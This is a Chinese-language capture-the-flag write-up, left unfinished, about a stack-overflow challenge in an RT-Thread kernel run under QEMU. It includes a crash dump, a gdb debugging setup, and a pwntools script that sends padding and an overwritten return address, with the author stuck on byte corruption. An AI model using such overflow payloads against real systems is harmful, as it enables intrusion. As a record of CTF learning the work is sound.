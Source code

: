 ```yaml
---
title: XUNCA 2020 rtos
date: 2020-11-22 00:00:00
categories:
- CTF/Pwn
tags: rtos 
---
```


> 卡住了...更新中...rt-thread的main函数栈溢出，不用getshell，ROP/shellcode读出根目录下的flag即可：

题目附件，最开始没符号，后来因为零解，然后放了有符号的ELF版，比赛最后服务器段的pow也直接去掉了：

- [rtos_no_symbols.zip](https://xuanxuanblingbling.github.io/assets/attachment/rtos/rtos_no_symbols.zip)
- [rtos_symbols.zip](https://xuanxuanblingbling.github.io/assets/attachment/rtos/rtos_symbols.zip)

## 开发尝试

- [rt-thread 源码仓库](https://github.com/RT-Thread/rt-thread)
- [rt-thread 文档中心](https://www.rt-thread.org/document/site/)
- [rt-thread qemu入门指南](https://github.com/RT-Thread/rtthread-manual-doc/blob/master/documentation/quick_start_qemu/quick_start_qemu_linux.md)

编译方法非常简单，进`/rt-thread/bsp/qemu-vexpress-a9/`，然后执行`scons`即可编译。业务代码可以修改`/rt-thread/bsp/qemu-vexpress-a9/applications/main.c`，尝试直接输出flag：

```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <dfs_posix.h> 

int main(void)
{
	char a[0x64];
	int fd;
    fd = open("/flag",O_RDONLY);
    read(fd,a,0x64);
    puts(a);
    return 0;
}
```

需要在sd卡中新建flag，可以进rt-thread后新建，也可以是用linux直接挂载文件系统新建

## 题目漏洞

> 一开始研究半天咋跟这玩意交互，直接qemu启动后，命令行里输入没有显示，后来发现使用文件加管道重定向给qemu可以获得比较正常的输入输出

就是个栈溢出，但是溢出点的数值不知道为啥被改了，看起来是数值加3：

```bash
$ python3 -c "print('1'*0x40)" | ./run.sh
WARNING: Image format was not specified for 'sd.bin' and probing guessed raw.
         Automatically detecting the format is dangerous for raw images, write operations on block 0 will be restricted.
         Specify the 'raw' format explicitly to remove the restrictions.
pulseaudio: set_sink_input_volume() failed
pulseaudio: Reason: Invalid argument
pulseaudio: set_sink_input_mute() failed
pulseaudio: Reason: Invalid argument
qemu-system-arm: warning: hub 0 is not connected to host network

 \ | /
- RT -     Thread Operating System
 / | \     4.0.3 build Oct 30 2020
 2006 - 2020 Copyright by rt-thread team
lwIP-2.0.2 initialized!
[I/sal.skt] Socket Abstraction Layer initialize success.
[I/SDIO] SD card capacity 65536 KB.
file system initialization done!
welcome to simple rtos pwn level 1

read 1111111111111111111111111111111111111111111111111111111111111111
byebye
prefetch abort:
Execption:
r00:0x00000000 r01:0x07860785 r02:0x00000786 r03:0x00000000
r04:0xdeadbeef r05:0xdeadbeef r06:0xdeadbeef r07:0xdeadbeef
r08:0xdeadbeef r09:0xdeadbeef r10:0xdeadbeef
fp :0x31313131 ip :0x01010101
sp :0x6009ce78 lr :0x60012cbc pc :0x31313134
cpsr:0x60000033
shutdown...
```

修改`run.sh`开始调试：

```bash
qemu-system-arm -M vexpress-a9 -smp cpus=2 \
	-kernel binary.bin \
	-nographic -sd sd.bin -net nic \
	-serial mon:stdio \
	-monitor /dev/null \
	-gdb tcp::1234 -S
```

但是如果输入包含`0x01`，就会发生奇怪额现象....

```python
from pwn import *
context(arch='arm',log_level='debug')

io = process(["bash","./run.sh"])
io.recvuntil("2006 - 2020 Copyright by rt-thread team") 
payload = 'A'*(0x20)
payload += p32(0x11223344) 
payload += p32(0x60012518)
io.sendline(payload)
io.interactive()
```

输入的`0x60012518`就会再过了scanf后直接在栈上变成`0x60002518`

```c
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x60012558    pop    {fp, pc}
    ↓
   0x60002518    andeq  r0, r0, r0
   0x6000251c    andeq  r0, r0, r0
   0x60002520    andeq  r0, r0, r0
   0x60002524    andeq  r0, r0, r0
   0x60002528    andeq  r0, r0, r0
   0x6000252c    andeq  r0, r0, r0
   0x60002530    andeq  r0, r0, r0
   0x60002534    andeq  r0, r0, r0
   0x60002538    andeq  r0, r0, r0
   0x6000253c    andeq  r0, r0, r0
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ sp   0x6009ce70 —▸ 0x11223344 ◂— 0
01:0004│ r11  0x6009ce74 —▸ 0x60002518 ◂— 0
02:0008│      0x6009ce78 —▸ 0xdeadbeef ◂— 0
03:000c│      0x6009ce7c ◂— 0
04:0010│      0x6009ce80 —▸ 0xdeadbeef ◂— 0
05:0014│      0x6009ce84 —▸ 0x6001ed64 ◂— push   {r4, fp, lr} /* 0xe92d4810 */
06:0018│      0x6009ce88 —▸ 0x23232323 ◂— 0
07:001c│      0x6009ce8c ◂— andeq  r1, r1, r0, lsr #29 /* 0x11ea0 */
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0 60012558
────────────────────────────────────────────────────────────────────────────────
Breakpoint * 0x60012558
pwndbg> 
```

进行不下去了...
